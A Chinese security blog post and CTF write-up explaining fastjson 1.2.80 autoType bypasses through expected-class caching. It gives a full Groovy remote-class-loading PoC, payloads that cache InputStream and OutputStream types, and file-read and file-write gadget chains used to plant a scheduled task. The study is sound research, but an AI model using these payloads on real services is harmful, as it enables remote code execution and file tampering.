# 从FastJ学习fastjson1.2.80反序列化-先知社区

> **来源**: https://xz.aliyun.com/news/18122  
> **文章ID**: 18122

---

# 从FastJ学习fastjson1.2.80反序列化

## fastjson 1.2.80 反序列化

在 fastjson1.2.68 后期望类黑名单中新添了 AutoCloseable，Runnable，Readable 这三个类，导致以前的 1.2.68 的链子无法使用了，不过这种黑名单的修复方法可以通过找个新的期望类进行绕过，这个期望类就是 Throwable，当然光靠这个期望类还是无法利用的，还需要配上新的缓存机制——fastjson反序列化符合条件的期望类时，会将setter参数、public字段、构造函数参数类型加到缓存中。

### 缓存 ProcesssingUnit

先看这段 payload

```
{  
    "@type":"java.lang.Exception",  
    "@type":"org.codehaus.groovy.control.CompilationFailedException",  
    "unit":{}  
}
```

写个测试类

```
public static void main(String[] args) {  
    String payload1 = "{
" +  
            "    "@type":"java.lang.Exception",
" +  
            "    "@type":"org.codehaus.groovy.control.CompilationFailedException",
" +  
            "    "unit":{}
" +  
            "}";
    JSONObject.parse(payload1);  
}
```

从 `JSONObject.parse` 进入，然后一直跟到 checkAutoType() 方法中，



进入到该方法，看到直接从 Mapping 中取出我们的 Exception 类。这是因为在 `TypeUtils` 类初始化的时候会向 Mapping 中添加缓存类，其中就包括了 Exception，



然后回到 `DefaultJSONParser` 类继续执行，根据拿到的类 `java.lang.Exception` 获取反序列化器



因为 `java.lang.Exception` 是继承 `Throwable` 类的，所以最后会获得 `ThrowableDeserializer` 类型的反序列化器；



然后调用 `ThrowableDeserializer.deserialze` 方法，



在这里面会获取到第二个 `@type` 字段中的类名，带入checkAutoType()，并且把 `Throwable.class` 作为期望类。



跟进 `checkAutoType()` 方法，先设置 `expectClassFlag` 为 `true`，



然后是黑名单的判断，看到虽然 autotype 为 false ，但是因为 expectClassFlag 为 true 所以还是会进入到判断，



最后会加载类 `org.codehaus.groovy.control.CompilationFailedException`，然后将其放入Mapping中



加载后继续利用 `ThrowableDeserializer#deserialze` 获取字段，根据key实例化出 `FieldDeserializer` 进一步处理。

调用 `TypeUtils.cast` 进行类型转换，这里会进入 Map 这个分支，



跟进到 `castToJavaBean` 中，根据构造方法参数类型 clazz 获取反序列化器，clazz 为 ProcessingUnit，



然后在 `getDeserializer` 方法中看到会把这个类和 deserializer 添加进 `com.alibaba.fastjson.util.IdentityHashMap#buckets` 中，



看到如果把 ProcesssingUnit 添加到了缓存中，后续恢复 ProcesssingUnit 类的时候就可以直接从 `this.deserializers.findClass(typeName)` 就可以获得了（虽然我们这里要用的是 ProcesssingUnit 的子类），



### groovy 利用链

接着是进行利用的 payload

```
{  
    "@type":"org.codehaus.groovy.control.ProcessingUnit",  
    "@type":"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit",  
    "config":{  
     "@type":"org.codehaus.groovy.control.CompilerConfiguration",  
     "classpathList":"http://127.0.0.1:8080/"  
    }
}
```

同样识别到 `@type` 标识符进入 `checkAutoType` 方法判断，上面提到在调用 `getDeserializer` 方法的时候会将 `ProcesssingUnit` 对应的反序列化器加入到 `deserializers` 中

这里会根据 typename 去 `deserializers` 中寻找，直接获得了 clazz



然后返回出去获得反序列化器，是 JavaBeanDeserializer



接着调用JavaBeanDeserializer.deserialze 方法，继续跟进 `deserialze` 方法，设置 `typeName` 为 `org.codehaus.groovy.tools.javac.JavaStubCompilationUnit`  


设置期望类为 `class org.codehaus.groovy.control.ProcessingUnit`，然后进入 checkAutoType





这里会像上面第一个 payload 一样，在 `checkAutoType` 中调用 `TypeUtils.loadClass` 加载类然后调用 `TypeUtils.addMapping` 将 `JavaStubCompilationUnit` 加入 mapping。

恢复了 JavaStubCompilationUnit 后续就是正常的 fastjson 反序列化了，先会调用到 `setClasspathList` 设置路径



然后是构造函数最后触发 sink 点进行恶意类利用。

完整 poc

```
public static void main(String[] args) {  
    String payload1 = "{
" +  
            "    "@type":"java.lang.Exception",
" +  
            "    "@type":"org.codehaus.groovy.control.CompilationFailedException",
" +  
            "    "unit":{}
" +  
            "}";  
    String payload2 = "{
" +  
            "    "@type":"org.codehaus.groovy.control.ProcessingUnit",
" +  
            "    "@type":"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit",
" +  
            "    "config":{
" +  
            "        "@type":"org.codehaus.groovy.control.CompilerConfiguration",
" +  
            "        "classpathList":"http://127.0.0.1:8080/"
" +  
            "    }
" +  
            "}";  
    try{  
        JSONObject.parse(payload1);  
    }catch (Exception e){  
        JSONObject.parse(payload2);  
    }  

}
```

最后成功弹出计算机



## FastJ

参考： [2025第三届京麒CTF挑战赛 writeup by Mini-Venom](https://mp.weixin.qq.com/s?__biz=MzIzMTc1MjExOQ==&mid=2247512884&idx=1&sn=9ed534763d50f8edb65527396c7803a7&chksm=e9d9fd6ec9c2d347614ba9734e7cf9360f5d90da620c5422833ca8155ad4f2360790417b4ac4&mpshare=1&scene=23&srcid=0527xqJk3dj5vJHYxCCMisuQ)

这道题需要先参考另一条利用链：<https://xz.aliyun.com/news/16145>，这条链是缓存的 InputStream 类，然后进行了读写文件操作，原理其实和上面是一样的，这里看看其缓存的 poc

```
{
  "a": "{    "@type": "java.lang.Exception",    "@type": "com.fasterxml.jackson.core.exc.InputCoercionException",    "p": {    }  }",
  "b": {
    "$ref": "$.a.a"
  },
  "c": "{  "@type": "com.fasterxml.jackson.core.JsonParser",  "@type": "com.fasterxml.jackson.core.json.UTF8StreamJsonParser",  "in": {}}",
  "d": {
    "$ref": "$.c.c"
  }
}
```

第一段先把 InputCoercionException 的构造函数参数类型进行缓存，也就是 JsonParser 类。接着把 JsonParser 类当作期望类缓存了 UTF8StreamJsonParser 的构造函数参数类型也就是我们的目标类的父类 InputStream ，后续就是正常的读文件和写文件利用了。

读文件

```
{
  "a": {
    "@type": "java.io.InputStream",
    "@type": "org.apache.commons.io.input.BOMInputStream",
    "delegate": {
      "@type": "org.apache.commons.io.input.BOMInputStream",
      "delegate": {
        "@type": "org.apache.commons.io.input.ReaderInputStream",
        "reader": {
          "@type": "jdk.nashorn.api.scripting.URLReader",
          "url": "${file}"
        },
        "charsetName": "UTF-8",
        "bufferSize": "1024"
      },
      "boms": [
        {
          "charsetName": "UTF-8",
          "bytes": ${data}
        }
      ]
    },
    "boms": [
      {
        "charsetName": "UTF-8",
        "bytes": [1]
      }
    ]
  },
  "b": {"$ref":"$.a.delegate"}
}
```

写文件

```
{
"a": {
  "@type": "java.io.InputStream",
  "@type": "org.apache.commons.io.input.AutoCloseInputStream",
  "in": {
    "@type": "org.apache.commons.io.input.TeeInputStream",
    "input": {
      "@type": "org.apache.commons.io.input.CharSequenceInputStream",
      "cs": {
        "@type": "java.lang.String"
        "${shellcode}",
        "charset": "iso-8859-1",
        "bufferSize": ${size}
      },
      "branch": {
        "@type": "org.apache.commons.io.output.WriterOutputStream",
        "writer": {
          "@type": "org.apache.commons.io.output.LockableFileWriter",
          "file": "${file2write}",
          "charset": "iso-8859-1",
          "append": true
        },
        "charset": "iso-8859-1",
        "bufferSize": 1024,
        "writeImmediately": true
      },
      "closeBranch": true
    }
  },
  "b": {
    "@type": "java.io.InputStream",
    "@type": "org.apache.commons.io.input.ReaderInputStream",
    "reader": {
      "@type": "org.apache.commons.io.input.XmlStreamReader",
      "inputStream": {
        "$ref": "$.a"
      },
      "httpContentType": "text/xml",
      "lenient": false,
      "defaultEncoding": "iso-8859-1"
    },
    "charsetName": "iso-8859-1",
    "bufferSize": 1024
  },
  "c": {}
}
```

但是这道题只引入了 fastjson 1.2.80 的依赖，没有 common-io 依赖，所以利用上面的 poc 肯定是不行了



而想到原生的文件操作利用链，可以参考一下这篇文章：[https://rmb122.com/2020/06/12/fastjson-1-2-68-反序列化漏洞-gadgets-挖掘笔记/](https://rmb122.com/2020/06/12/fastjson-1-2-68-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-gadgets-%E6%8C%96%E6%8E%98%E7%AC%94%E8%AE%B0/)。

```
{
    "@type": "java.lang.AutoCloseable",
    "@type": "sun.rmi.server.MarshalOutputStream",
    "out": {
        "@type": "java.util.zip.InflaterOutputStream",
        "out": {
           "@type": "java.io.FileOutputStream",
           "file": "/tmp/asdasd",
           "append": true
        },
        "infl": {
           "input": {
               "array": "eJxLLE5JTCkGAAh5AnE=",
               "limit": 14
           }
        },

        "bufLen": "100"
    },
    "protocolVersion": 1
}
```

这里利用的 MarshalOutputStream 类其实也是继承于 OutputStream 的，所以我也可以通过缓存 OutputStream ，然后把其作为期望类进行利用。fastjosn1.2.80 中过滤了 FileOutputStream 类，这个类在 gadget 中起到设置路径的作用，题目给了其子类进行绕过



所以利用 poc 如下，写入的数据需要利用 openssl zlib 方式的压缩

```
{
"@type": "java.io.OutputStream",
"@type": "sun.rmi.server.MarshalOutputStream",
"out": {
    "@type": "java.util.zip.InflaterOutputStream",
    "out": {
      "@type": "com.app.FilterFileOutputStream",
      "name": "E:/tmp/2.txt",
      "prefix": "/"
    },
    "infl": {
      "input": {
        "array": "eJxLLE5JTCkGAAh5AnE=",
        "limit": 14
      }
    },
    "bufLen": "100"
  },
"protocolVersion": 1
}

```

缓存的链子可以直接根据 InputStream 链子找，我们找和 UTF8StreamJsonParser 功能相反的类



里看到 `UTF8JsonGenerator` 的参数类型就是 OutputStream



接着同样的道理，其继承于 JsonGenerator 类，现在需要找继承了 Exception 然后参数类型是 JsonGenerator 的类，这个全局搜一下就能找到



直接照着缓存 InputStream 类的 gadget 进行构造就行了，得到 OutputStream 的缓存链，

```
{
  "a": "{    "@type": "java.lang.Exception",    "@type": "com.fasterxml.jackson.core.JsonGenerationException",    "g": {}  }",
  "b": {
    "$ref": "$.a.a"
  },
  "c": "{  "@type": "com.fasterxml.jackson.core.JsonGenerator",  "@type": "com.fasterxml.jackson.core.json.UTF8JsonGenerator",  "out": {}}",
  "d": {
    "$ref": "$.c.c"
  }
}
```

传入缓存 poc，接着传入上面的利用 poc，看到通过 deserializers 缓存获得了 java.io.OutputStream 类



接着 OutputStream 作为期望类，把后面的危险类全部加入了 Mapping 缓存从而在 autoType 为 false 的情况下完成了反序列化利用。



最后成功写入文件



然后看师傅文章说题目是通过写定时任务进行的利用。

## 参考

[2025第三届京麒CTF挑战赛 writeup by Mini-Venom](https://mp.weixin.qq.com/s?__biz=MzIzMTc1MjExOQ==&mid=2247512884&idx=1&sn=9ed534763d50f8edb65527396c7803a7&chksm=e9d9fd6ec9c2d347614ba9734e7cf9360f5d90da620c5422833ca8155ad4f2360790417b4ac4&mpshare=1&scene=23&srcid=0527xqJk3dj5vJHYxCCMisuQ)

<https://www.freebuf.com/vuls/354868.html>

[https://rmb122.com/2020/06/12/fastjson-1-2-68-反序列化漏洞-gadgets-挖掘笔记](https://rmb122.com/2020/06/12/fastjson-1-2-68-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-gadgets-%E6%8C%96%E6%8E%98%E7%AC%94%E8%AE%B0/)

[https://blog.s8ark.top/2024/01/30/沉浸式体验%20fastjson1.2.80的Groovy利用链/#3-调试并分析漏洞利用过程-payload2](https://blog.s8ark.top/2024/01/30/%E6%B2%89%E6%B5%B8%E5%BC%8F%E4%BD%93%E9%AA%8C%20fastjson1.2.80%E7%9A%84Groovy%E5%88%A9%E7%94%A8%E9%93%BE/#3-%E8%B0%83%E8%AF%95%E5%B9%B6%E5%88%86%E6%9E%90%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E8%BF%87%E7%A8%8B-payload2)
